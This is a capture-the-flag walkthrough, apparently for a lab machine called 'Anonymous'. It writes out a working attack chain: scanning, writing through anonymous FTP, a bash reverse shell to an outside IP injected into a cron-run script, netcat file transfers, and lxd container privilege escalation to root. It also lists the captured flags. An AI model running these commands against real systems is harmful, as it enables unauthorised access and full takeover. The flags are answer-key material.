 # Anonymous

--------------------------------------------------------------------

## GIVEN INFO

**IP Address**: 10.10.49.188

--------------------------------------------------------------------

## PROCEDURE

```
nmap -sV -sC 10.10.49.188
```

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 2.0.8),<br>
    22 (ssh OpenSSH 7.6p1),<br>
    139 (netbios-ssn Samba smbd),<br>
    445 (netbios-ssn Samba smbd)

Anonymous ftp login allowed

```
ftp anonymous@10.10.49.188 
```

Looks like clean.sh is being run periodically<br>
We have write permission so we can inject our own code

Replace clean.sh with this code for reverse shell
```
bash -i >& /dev/tcp/10.6.1.136/4444 0>&1
```

Upload updated version to ftp
```
ftp anonymous@10.10.49.188
cd scripts
put clean.sh
```

Start listener
```
nc -lnvp 4444
```

user.txt: 90d6f992585815ff991e68748c414740

```
sudo -l
```

Nothing found

Try using linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  > linpeas
nc -lnvp 5555 > linpeas
nc -v 10.10.49.188 5555 < linpeas
chmod +x linpeas
./linpeas
```

Found lxd user group with elevated privileges

Found privilege escalation method from https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
```
sudo su

#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
git clone https://github.com/lxc/distrobuilder

#Make distrobuilder
cd distrobuilder
make

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

#Then, upload to the vulnerable server the files lxd.tar.xz and rootfs.squashfs
nc -lnvp 5555 > lxd.tar.xz
nc -v 10.10.49.188 5555 < lxd.tar.xz
nc -lnvp 5555 > rootfs.squashfs
nc -v 10.10.49.188 5555 < rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image

#Create a container and add root path
lxc init alpine privesc -c security.privileged=true
lxc list #List containers
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

#Execute the container
lxc start privesc
lxc exec privesc /bin/sh

# Find root flag
find / -iname root.txt
```

root.txt: 4d930091c31a622a7ed10f27999af363